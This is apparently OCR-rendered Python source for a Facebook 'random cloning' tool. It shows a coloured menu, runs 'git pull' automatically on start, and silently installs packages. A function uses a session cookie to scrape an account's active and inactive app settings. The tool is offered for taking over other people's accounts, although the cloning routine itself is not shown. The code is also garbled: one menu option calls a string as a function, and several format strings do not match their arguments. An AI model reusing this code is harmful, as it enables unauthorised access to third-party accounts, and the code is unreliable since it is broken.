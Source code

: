 
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
def o():
    os.system('clear')
    print(logo)
    print(" \033[38;5;46m××××××××××××××××××××××××××××××××××××××××××××××××")
    jalan(" \033[38;5;196m[\033[38;5;195mA\033[38;5;196m]\033[38;5;195m START RANDOM CLONING \033[1;91m[\033[1;97mWORKING\033[1;91m]")
    print(" \033[38;5;196m[\033[38;5;195mB\033[38;5;196m]\033[38;5;195m MY FB ACCOUNT")
    print(" \033[38;5;196m[\033[38;5;195mC\033[38;5;196m]\033[38;5;195m MY FB GROUP")
    print(" \033[38;5;196m[\033[38;5;195mD\033[38;5;196m]\033[38;5;195m MY GITHUB ACCOUNT")
    print(" \033[38;5;196m[\033[38;5;195mE\033[38;5;196m]\033[38;5;195m EXIT")
    print(" \033[38;5;46m××××××××××××××××××××××××××××××××××××××××××××××××")
    SHORIF = input(' \033[38;5;196m[\033[38;5;195m•\033[38;5;196m]\033[38;5;45m Choice Option \033[38;5;196m: ')
    if SHORIF == 'A':
        SHORIF()
    if SHORIF == 'B':
        os.system('xdg-open https://www.facebook.com/copy.link.erorr404')
        return None
    if SHORIF == 'C':
        os.system('xdg-open https://facebook.com/groups/551365756758487/')
        return None
    if SHORIF == 'D':
        os.system('xdg-open https://www.github.com/KgSHORIF')
        return None
    if SHORIF == 'E':
        os.system('exit')
        return None
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;196mSorry there is no Active  Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r[] %s \033[38;5;196m  Your Active Apps      :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        else:
            print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")